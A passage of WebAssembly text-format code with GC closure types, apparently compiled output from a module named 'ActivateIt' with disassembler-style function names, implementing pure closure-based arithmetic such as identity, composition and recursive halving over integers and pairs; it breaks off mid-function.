  (func $username/ActivateIt.sub_401261|<Int*Int>| (;29;) (param $m/613 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    ref.func $$username/ActivateIt.sub_401261|<Int*Int>|.fn/43
    local.get $m/613
    struct.new $$username/ActivateIt.sub_401261|<Int*Int>|.fn/43-cap
  )
  (func $$username/ActivateIt.sub_401261|<Int*Int>|.fn/43 (;30;) (param $*env/753 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $n/612 (;1;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $m/613 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*casted_env/754 (ref $$username/ActivateIt.sub_401261|<Int*Int>|.fn/43-cap))
    local.get $*env/753
    ref.cast $$username/ActivateIt.sub_401261|<Int*Int>|.fn/43-cap
    local.tee $*casted_env/754
    struct.get $$username/ActivateIt.sub_401261|<Int*Int>|.fn/43-cap $field1
    ref.as_non_null
    local.set $m/613
    local.get $m/613
    local.get $n/612
    local.get $m/613
    struct.get $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
  )
  (func $username/ActivateIt.sub_401554|<Int*Int>| (;31;) (param $n/609 (;0;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    ref.func $$username/ActivateIt.sub_401554|<Int*Int>|.fn/40
    local.get $n/609
    struct.new $$username/ActivateIt.sub_401554|<Int*Int>|.fn/40-cap
  )
  (func $$username/ActivateIt.sub_401554|<Int*Int>|.fn/40 (;32;) (param $*env/747 (;0;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $f/606 (;1;) (ref $<<Int*Int>>=><Int*Int>)) (result (ref $<<Int*Int>>=><Int*Int>))
    (local $n/609 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*casted_env/748 (ref $$username/ActivateIt.sub_401554|<Int*Int>|.fn/40-cap))
    local.get $*env/747
    ref.cast $$username/ActivateIt.sub_401554|<Int*Int>|.fn/40-cap
    local.tee $*casted_env/748
    struct.get $$username/ActivateIt.sub_401554|<Int*Int>|.fn/40-cap $field1
    ref.as_non_null
    local.set $n/609
    ref.func $$username/ActivateIt.sub_401554|<Int*Int>|.fn/41
    local.get $n/609
    local.get $f/606
    struct.new $$username/ActivateIt.sub_401554|<Int*Int>|.fn/41-cap
  )
  (func $$username/ActivateIt.sub_401554|<Int*Int>|.fn/41 (;33;) (param $*env/749 (;0;) (ref $<<Int*Int>>=><Int*Int>)) (param $x/607 (;1;) (ref $<Int*Int>)) (result (ref $<Int*Int>))
    (local $f/606 (ref $<<Int*Int>>=><Int*Int>))
    (local $*func/608 (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $n/609 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $f/610 (ref $<<Int*Int>>=><Int*Int>))
    (local $*casted_env/750 (ref $$username/ActivateIt.sub_401554|<Int*Int>|.fn/41-cap))
    local.get $*env/749
    ref.cast $$username/ActivateIt.sub_401554|<Int*Int>|.fn/41-cap
    local.tee $*casted_env/750
    struct.get $$username/ActivateIt.sub_401554|<Int*Int>|.fn/41-cap $field2
    ref.as_non_null
    local.set $f/606
    local.get $*casted_env/750
    struct.get $$username/ActivateIt.sub_401554|<Int*Int>|.fn/41-cap $field1
    ref.as_non_null
    local.set $n/609
    local.get $n/609
    local.get $f/606
    local.set $f/610
    ref.func $$username/ActivateIt.sub_401554|<Int*Int>|.fn/42
    local.get $f/610
    struct.new $$username/ActivateIt.sub_401554|<Int*Int>|.fn/42-cap
    local.get $n/609
    struct.get $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
    local.set $*func/608
    local.get $*func/608
    local.get $x/607
    local.get $x/607
    struct.new $<<Int*Int>*<Int*Int>>
    local.get $*func/608
    struct.get $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
    struct.get $<<Int*Int>*<Int*Int>> $field0
  )
  (func $$username/ActivateIt.sub_401554|<Int*Int>|.fn/42 (;34;) (param $*env/751 (;0;) (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $p/611 (;1;) (ref $<<Int*Int>*<Int*Int>>)) (result (ref $<<Int*Int>*<Int*Int>>))
    (local $f/610 (ref $<<Int*Int>>=><Int*Int>))
    (local $*casted_env/752 (ref $$username/ActivateIt.sub_401554|<Int*Int>|.fn/42-cap))
    local.get $*env/751
    ref.cast $$username/ActivateIt.sub_401554|<Int*Int>|.fn/42-cap
    local.tee $*casted_env/752
    struct.get $$username/ActivateIt.sub_401554|<Int*Int>|.fn/42-cap $field1
    ref.as_non_null
    local.set $f/610
    local.get $p/611
    struct.get $<<Int*Int>*<Int*Int>> $field1
    local.get $f/610
    local.get $p/611
    struct.get $<<Int*Int>*<Int*Int>> $field1
    local.get $f/610
    struct.get $<<Int*Int>>=><Int*Int> $field0
    call_ref $<<Int*Int>>=><Int*Int>-sig
    struct.new $<<Int*Int>*<Int*Int>>
  )
  (func $username/ActivateIt.sub_401554|Int| (;35;) (param $n/603 (;0;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<Int>=>Int>=><Int>=>Int))
    ref.func $$username/ActivateIt.sub_401554|Int|.fn/37
    local.get $n/603
    struct.new $$username/ActivateIt.sub_401554|Int|.fn/37-cap
  )
  (func $$username/ActivateIt.sub_401554|Int|.fn/37 (;36;) (param $*env/741 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (param $f/600 (;1;) (ref $<Int>=>Int)) (result (ref $<Int>=>Int))
    (local $n/603 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*casted_env/742 (ref $$username/ActivateIt.sub_401554|Int|.fn/37-cap))
    local.get $*env/741
    ref.cast $$username/ActivateIt.sub_401554|Int|.fn/37-cap
    local.tee $*casted_env/742
    struct.get $$username/ActivateIt.sub_401554|Int|.fn/37-cap $field1
    ref.as_non_null
    local.set $n/603
    ref.func $$username/ActivateIt.sub_401554|Int|.fn/38
    local.get $n/603
    local.get $f/600
    struct.new $$username/ActivateIt.sub_401554|Int|.fn/38-cap
  )
  (func $$username/ActivateIt.sub_401554|Int|.fn/38 (;37;) (param $*env/743 (;0;) (ref $<Int>=>Int)) (param $x/601 (;1;) i32) (result i32)
    (local $f/600 (ref $<Int>=>Int))
    (local $*func/602 (ref $<<Int*Int>>=><Int*Int>))
    (local $n/603 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $f/604 (ref $<Int>=>Int))
    (local $*casted_env/744 (ref $$username/ActivateIt.sub_401554|Int|.fn/38-cap))
    local.get $*env/743
    ref.cast $$username/ActivateIt.sub_401554|Int|.fn/38-cap
    local.tee $*casted_env/744
    struct.get $$username/ActivateIt.sub_401554|Int|.fn/38-cap $field2
    ref.as_non_null
    local.set $f/600
    local.get $*casted_env/744
    struct.get $$username/ActivateIt.sub_401554|Int|.fn/38-cap $field1
    ref.as_non_null
    local.set $n/603
    local.get $n/603
    local.get $f/600
    local.set $f/604
    ref.func $$username/ActivateIt.sub_401554|Int|.fn/39
    local.get $f/604
    struct.new $$username/ActivateIt.sub_401554|Int|.fn/39-cap
    local.get $n/603
    struct.get $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
    local.set $*func/602
    local.get $*func/602
    local.get $x/601
    local.get $x/601
    struct.new $<Int*Int>
    local.get $*func/602
    struct.get $<<Int*Int>>=><Int*Int> $field0
    call_ref $<<Int*Int>>=><Int*Int>-sig
    struct.get $<Int*Int> $field0
  )
  (func $$username/ActivateIt.sub_401554|Int|.fn/39 (;38;) (param $*env/745 (;0;) (ref $<<Int*Int>>=><Int*Int>)) (param $p/605 (;1;) (ref $<Int*Int>)) (result (ref $<Int*Int>))
    (local $f/604 (ref $<Int>=>Int))
    (local $*casted_env/746 (ref $$username/ActivateIt.sub_401554|Int|.fn/39-cap))
    local.get $*env/745
    ref.cast $$username/ActivateIt.sub_401554|Int|.fn/39-cap
    local.tee $*casted_env/746
    struct.get $$username/ActivateIt.sub_401554|Int|.fn/39-cap $field1
    ref.as_non_null
    local.set $f/604
    local.get $p/605
    struct.get $<Int*Int> $field1
    local.get $f/604
    local.get $p/605
    struct.get $<Int*Int> $field1
    local.get $f/604
    struct.get $<Int>=>Int $field0
    call_ref $<Int>=>Int-sig
    struct.new $<Int*Int>
  )
  (func $username/ActivateIt.sub_401641|Int| (;39;) (param $n/599 (;0;) i32) (result (ref $<<Int>=>Int>=><Int>=>Int))
    local.get $n/599
    i32.const 1
    i32.lt_s
    if (result (ref $<<Int>=>Int>=><Int>=>Int))
      global.get $username/ActivateIt.sub_401031|Int|
      ref.as_non_null
    else
      local.get $n/599
      i32.const 2
      i32.rem_s
      i32.const 0
      i32.eq
      if (result (ref $<<Int>=>Int>=><Int>=>Int))
        local.get $n/599
        i32.const 2
        i32.div_s
        call $username/ActivateIt.sub_401641|Int|
        call $username/ActivateIt.sub_401221|Int|
      else
        local.get $n/599
        i32.const 2
        i32.div_s
        call $username/ActivateIt.sub_401641|Int|
        call $username/ActivateIt.sub_401221|Int|
        call $username/ActivateIt.sub_401536|Int|
      end
    end
  )
  (func $username/ActivateIt.sub_401641|<<Int*Int>*<Int*Int>>| (;40;) (param $n/598 (;0;) i32) (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    local.get $n/598
    i32.const 1
    i32.lt_s
    if (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
      global.get $username/ActivateIt.sub_401031|<<Int*Int>*<Int*Int>>|
      ref.as_non_null
    else
      local.get $n/598
      i32.const 2
      i32.rem_s
      i32.const 0
      i32.eq
      if (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
        local.get $n/598
        i32.const 2
        i32.div_s
        call $username/ActivateIt.sub_401641|<<Int*Int>*<Int*Int>>|
        call $username/ActivateIt.sub_401221|<<Int*Int>*<Int*Int>>|
      else
        local.get $n/598
        i32.const 2
        i32.div_s
        call $username/ActivateIt.sub_401641|<<Int*Int>*<Int*Int>>|
        call $username/ActivateIt.sub_401221|<<Int*Int>*<Int*Int>>|
        call $username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|
      end
    end
  )
  (func $username/ActivateIt.sub_401536|Int| (;41;) (param $n/597 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (result (ref $<<Int>=>Int>=><Int>=>Int))
    ref.func $$username/ActivateIt.sub_401536|Int|.fn/35
    local.get $n/597
    struct.new $$username/ActivateIt.sub_401536|Int|.fn/35-cap
  )
  (func $$username/ActivateIt.sub_401536|Int|.fn/35 (;42;) (param $*env/737 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (param $f/594 (;1;) (ref $<Int>=>Int)) (result (ref $<Int>=>Int))
    (local $n/597 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $*casted_env/738 (ref $$username/ActivateIt.sub_401536|Int|.fn/35-cap))
    local.get $*env/737
    ref.cast $$username/ActivateIt.sub_401536|Int|.fn/35-cap
    local.tee $*casted_env/738
    struct.get $$username/ActivateIt.sub_401536|Int|.fn/35-cap $field1
    ref.as_non_null
    local.set $n/597
    ref.func $$username/ActivateIt.sub_401536|Int|.fn/36
    local.get $n/597
    local.get $f/594
    struct.new $$username/ActivateIt.sub_401536|Int|.fn/36-cap
  )
  (func $$username/ActivateIt.sub_401536|Int|.fn/36 (;43;) (param $*env/739 (;0;) (ref $<Int>=>Int)) (param $x/595 (;1;) i32) (result i32)
    (local $f/594 (ref $<Int>=>Int))
    (local $*func/596 (ref $<Int>=>Int))
    (local $n/597 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $*casted_env/740 (ref $$username/ActivateIt.sub_401536|Int|.fn/36-cap))
    local.get $*env/739
    ref.cast $$username/ActivateIt.sub_401536|Int|.fn/36-cap
    local.tee $*casted_env/740
    struct.get $$username/ActivateIt.sub_401536|Int|.fn/36-cap $field2
    ref.as_non_null
    local.set $f/594
    local.get $*casted_env/740
    struct.get $$username/ActivateIt.sub_401536|Int|.fn/36-cap $field1
    ref.as_non_null
    local.set $n/597
    local.get $f/594
    local.get $n/597
    local.get $f/594
    local.get $n/597
    struct.get $<<Int>=>Int>=><Int>=>Int $field0
    call_ref $<<Int>=>Int>=><Int>=>Int-sig
    local.set $*func/596
    local.get $*func/596
    local.get $x/595
    local.get $*func/596
    struct.get $<Int>=>Int $field0
    call_ref $<Int>=>Int-sig
    local.get $f/594
    struct.get $<Int>=>Int $field0
    call_ref $<Int>=>Int-sig
  )
  (func $username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>| (;44;) (param $n/593 (;0;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    ref.func $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/33
    local.get $n/593
    struct.new $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/33-cap
  )
  (func $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/33 (;45;) (param $*env/733 (;0;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $f/590 (;1;) (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $n/593 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*casted_env/734 (ref $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/33-cap))
    local.get $*env/733
    ref.cast $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/33-cap
    local.tee $*casted_env/734
    struct.get $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/33-cap $field1
    ref.as_non_null
    local.set $n/593
    ref.func $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/34
    local.get $n/593
    local.get $f/590
    struct.new $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/34-cap
  )
  (func $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/34 (;46;) (param $*env/735 (;0;) (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $x/591 (;1;) (ref $<<Int*Int>*<Int*Int>>)) (result (ref $<<Int*Int>*<Int*Int>>))
    (local $f/590 (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*func/592 (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $n/593 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*casted_env/736 (ref $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/34-cap))
    local.get $*env/735
    ref.cast $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/34-cap
    local.tee $*casted_env/736
    struct.get $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/34-cap $field2
    ref.as_non_null
    local.set $f/590
    local.get $*casted_env/736
    struct.get $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/34-cap $field1
    ref.as_non_null
    local.set $n/593
    local.get $f/590
    local.get $n/593
    local.get $f/590
    local.get $n/593
    struct.get $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
    local.set $*func/592
    local.get $*func/592
    local.get $x/591
    local.get $*func/592
    struct.get $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
    local.get $f/590
    struct.get $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
  )
  (func $username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>| (;47;) (param $n/589 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    ref.func $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/31
    local.get $n/589
    struct.new $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/31-cap
  )
  (func $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/31 (;48;) (param $*env/729 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $f/586 (;1;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $n/589 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*casted_env/730 (ref $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/31-cap))
    local.get $*env/729
    ref.cast $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/31-cap
    local.tee $*casted_env/730
    struct.get $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/31-cap $field1
    ref.as_non_null
    local.set $n/589
    ref.func $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/32
    local.get $n/589
    local.get $f/586
    struct.new $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/32-cap
  )
  (func $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/32 (;49;) (param $*env/731 (;0;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $x/587 (;1;) (ref $<<Int*Int>>=><Int*Int>)) (result (ref $<<Int*Int>>=><Int*Int>))
    (local $f/586 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*func/588 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $n/589 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*casted_env/732 (ref $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/32-cap))
    local.get $*env/731
    ref.cast $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/32-cap
    local.tee $*casted_env/732
    struct.get $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/32-cap $field2
    ref.as_non_null
    local.set $f/586
    local.get $*casted_env/732
    struct.get $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/32-cap $field1
    ref.as_non_null
    local.set $n/589
    local.get $f/586
    local.get $n/589
    local.get $f/586
    local.get $n/589
    struct.get $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
    local.set $*func/588
    local.get $*func/588
    local.get $x/587
    local.get $*func/588
    struct.get $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
    local.get $f/586
    struct.get $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
  )
  (func $username/ActivateIt.sub_401031|<<Int*Int>>=><Int*Int>| (;50;) (param $*discard_/585 (;0;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    ref.func $$username/ActivateIt.sub_401031|<<Int*Int>>=><Int*Int>|.fn/30
    struct.new $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>
  )
  (func $$username/ActivateIt.sub_401031|<<Int*Int>>=><Int*Int>|.fn/30 (;51;) (param $*env/728 (;0;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $x/584 (;1;) (ref $<<Int*Int>>=><Int*Int>)) (result (ref $<<Int*Int>>=><Int*Int>))
    local.get $x/584
  )
  (func $username/ActivateIt.sub_401031|<<Int*Int>*<Int*Int>>| (;52;) (param $*discard_/583 (;0;) (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    ref.func $$username/ActivateIt.sub_401031|<<Int*Int>*<Int*Int>>|.fn/29
    struct.new $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>
  )
  (func $$username/ActivateIt.sub_401031|<<Int*Int>*<Int*Int>>|.fn/29 (;53;) (param $*env/727 (;0;) (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $x/582 (;1;) (ref $<<Int*Int>*<Int*Int>>)) (result (ref $<<Int*Int>*<Int*Int>>))
    local.get $x/582
  )
  (func $username/ActivateIt.sub_401031|Int| (;54;) (param $*discard_/581 (;0;) (ref $<Int>=>Int)) (result (ref $<Int>=>Int))
    ref.func $$username/ActivateIt.sub_401031|Int|.fn/28
    struct.new $<Int>=>Int
  )
  (func $$username/ActivateIt.sub_401031|Int|.fn/28 (;55;) (param $*env/726 (;0;) (ref $<Int>=>Int)) (param $x/580 (;1;) i32) (result i32)
    local.get $x/580
  )
  (func $username/ActivateIt.sub_401326|Int| (;56;) (param $m/577 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (result (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int))
    ref.func $$username/ActivateIt.sub_401326|Int|.fn/25
    local.get $m/577
    struct.new $$username/ActivateIt.sub_401326|Int|.fn/25-cap
  )
  (func $$username/ActivateIt.sub_401326|Int|.fn/25 (;57;) (param $*env/720 (;0;) (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int)) (param $n/575 (;1;) (ref $<<Int>=>Int>=><Int>=>Int)) (result (ref $<<Int>=>Int>=><Int>=>Int))
    (local $m/577 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $*casted_env/721 (ref $$username/ActivateIt.sub_401326|Int|.fn/25-cap))
    local.get $*env/720
    ref.cast $$username/ActivateIt.sub_401326|Int|.fn/25-cap
    local.tee $*casted_env/721
    struct.get $$username/ActivateIt.sub_401326|Int|.fn/25-cap $field1
    ref.as_non_null
    local.set $m/577
    ref.func $$username/ActivateIt.sub_401326|Int|.fn/26
    local.get $m/577
    local.get $n/575
    struct.new $$username/ActivateIt.sub_401326|Int|.fn/26-cap
  )
  (func $$username/ActivateIt.sub_401326|Int|.fn/26 (;58;) (param $*env/722 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (param $f/576 (;1;) (ref $<Int>=>Int)) (result (ref $<Int>=>Int))
    (local $n/575 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $m/577 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $*casted_env/723 (ref $$username/ActivateIt.sub_401326|Int|.fn/26-cap))
    local.get $*env/722
    ref.cast $$username/ActivateIt.sub_401326|Int|.fn/26-cap
    local.tee $*casted_env/723
    struct.get $$username/ActivateIt.sub_401326|Int|.fn/26-cap $field2
    ref.as_non_null
    local.set $n/575
    local.get $*casted_env/723
    struct.get $$username/ActivateIt.sub_401326|Int|.fn/26-cap $field1
    ref.as_non_null
    local.set $m/577
    local.get $m/577
    ref.func $$username/ActivateIt.sub_401326|Int|.fn/27
    local.get $f/576
    local.get $n/575
    struct.new $$username/ActivateIt.sub_401326|Int|.fn/27-cap
    local.get $m/577
    struct.get $<<Int>=>Int>=><Int>=>Int $field0
    call_ref $<<Int>=>Int>=><Int>=>Int-sig
  )
  (func $$username/ActivateIt.sub_401326|Int|.fn/27 (;59;) (param $*env/724 (;0;) (ref $<Int>=>Int)) (param $x/578 (;1;) i32) (result i32)
    (local $n/575 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $f/576 (ref $<Int>=>Int))
    (local $*func/579 (ref $<Int>=>Int))
    (local $*casted_env/725 (ref $$username/ActivateIt.sub_401326|Int|.fn/27-cap))
    local.get $*env/724
    ref.cast $$username/ActivateIt.sub_401326|Int|.fn/27-cap
    local.tee $*casted_env/725
    struct.get $$username/ActivateIt.sub_401326|Int|.fn/27-cap $field2
    ref.as_non_null
    local.set $n/575
    local.get $*casted_env/725
    struct.get $$username/ActivateIt.sub_401326|Int|.fn/27-cap $field1
    ref.as_non_null
    local.set $f/576
    local.get $n/575
    local.get $f/576
    local.get $n/575
    struct.get $<<Int>=>Int>=><Int>=>Int $field0
    call_ref $<<Int>=>Int>=><Int>=>Int-sig
    local.set $*func/579
    local.get $*func/579
    local.get $x/578
    local.get $*func/579
    struct.get $<Int>=>Int $field0
    call_ref $<Int>=>Int-sig
  )
  (func $username/ActivateIt.sub_401221|<<Int*Int>>=><Int*Int>| (;60;) (param $c/574 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*func/573 (ref $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    local.get $c/574
    call $username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|
    local.set $*func/573
    local.get $*func/573
    local.get $c/574
    local.get $*func/573
